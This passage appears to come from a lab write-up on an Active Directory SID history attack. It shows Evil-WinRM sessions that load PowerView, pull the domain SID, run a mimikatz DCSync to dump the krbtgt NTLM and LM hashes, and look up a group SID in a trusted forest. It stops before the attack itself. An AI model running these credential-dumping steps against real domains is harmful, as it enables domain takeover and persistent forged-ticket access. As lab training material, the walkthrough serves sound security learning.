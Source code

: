 #### Performing the attack

```
// domain sid
*Evil-WinRM* PS C:\Users\Freak\Desktop> . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\Freak\Desktop> Get-DomainSID
S-1-5-21-1407615112-106284543-3058975305

// krbtgt hash
*Evil-WinRM* PS C:\Users\Freak\Desktop>  .\mimikatz.exe "lsadump::dcsync /user:INLANEFREIGHT\krbtgt" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /user:INLANEFREIGHT\krbtgt
[DC] 'inlanefreight.ad' will be the domain
[DC] 'DC.inlanefreight.ad' will be the DC server
[DC] 'INLANEFREIGHT\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 3/30/2024 10:42:23 PM
Object Security ID   : S-1-5-21-1407615112-106284543-3058975305-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 6f639a6054a3d9852409e9ad7e41893b
    ntlm- 0: 6f639a6054a3d9852409e9ad7e41893b
    lm  - 0: 27d88160e6b172196deac2bb5205e74c

//group sid
PS C:\Users\Freak\Desktop> Get-ADGroup -Identity "HR_MANAGEMENT" -Server "apexcargo.ad"
DistinguishedName : CN=HR_Management,CN=Users,DC=apexcargo,DC=ad
GroupCategory     : Security
GroupScope        : Universal 
ObjectClass       : group
ObjectGUID        : d3a49e61-3516-4708-b3af-9c0f98ee1778                                                                          
SamAccountName    : HR_Management                                                                                                 
SID               : S-1-5-21-990245489-431684941-3923950027-1112  
```
We currently have the following requirements for the SID history attack:
